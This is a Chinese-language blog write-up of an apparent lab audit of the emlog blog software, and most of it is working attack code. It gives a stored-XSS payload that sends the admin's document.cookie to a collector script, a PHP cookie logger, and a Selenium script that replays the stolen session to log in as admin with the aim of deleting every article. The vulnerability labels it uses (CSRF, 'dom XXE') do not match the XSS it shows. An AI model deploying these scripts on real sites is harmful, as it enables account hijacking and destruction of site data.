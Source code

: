 >记一次emblog代码审计过程

# CSRF

#### 0x01攻击实现

- 面试问到了AWVS，尝试用它扫描一遍，漏洞报告如下，最终实现了dom型XXE窃取cookie登陆管理员账号删掉所有文章.
  ![Markdown](http://m.qpic.cn/psc?/V54CrkEU0Tpr6w2OCGXC2Y37292uXCIM/bqQfVz5yrrGYSXMvKr.cqQYjG.za2UE0FeQImUcUzuqgLEW6VHaXdjCDdeBBnthFKKgLonbPIOArNBd1WA81ayJAeg*U6ZocunR5k9.kPl8!/mnull&bo=xgJPAcYCTwEDCSw!&rf=photolist&t=5)

- 将JavaScript脚本插入网站首页，Python的selenium登陆爬虫在本地运行，当管理员登陆账号并访问博客首页时，我们获取到cookie并自动登陆并删除文章.

#### 0x02攻击脚本

```javascript
<script>
    document.write('<img src="http://127.0.0.1/xss.php?cookie='+document.cookie+'" onerror="alert(1)">');
</script>
```

```php
<?php
$cookie = $_GET['cookie'];
//$cookie = json_encode($cookie);
$fp = fopen("./cookie.txt","r+");
fwrite($fp,$cookie);
fclose($fp);
?>
```

```python
from selenium import webdriver
from time import sleep
import json
# 一旦获取到cookie，立刻删掉文章
while(1):
    # 处理拿到的cooki
    with open('cookies.txt','r+') as f:
        cookielist = json.load(f)
    with open('D:\PHP\phpStudy_64\phpstudy_pro\WWW\cookie.txt', 'r+') as f:
        cookiestr = f.readline()
    if cookiestr=='':
        continue
    cookielist_php = cookiestr.split('; ')
    session = cookielist_php[0].split('=')
    autho_cookie = cookielist_php[2].split('=')
    cookielist[1]['name'] = session[0]
    cookielist[1]['value'] = session[1]
    cookielist[0]['name'] = autho_cookie[0]
    cookielist[0]['value'] = autho_cookie[1]
    print(cookielist)

    # selenium 打开浏览器
    bro = webdriver.Chrome('chromedriver.exe')
    bro.get('http://127.0.0.1/src/admin/')

    # 添加cookie
    for cookie in cookielist:
        bro.add_cookie(cookie)
    sleep(3)
    bro.refresh()
    print("登录完成")

    # 删除所有文章
    sleep(3)
```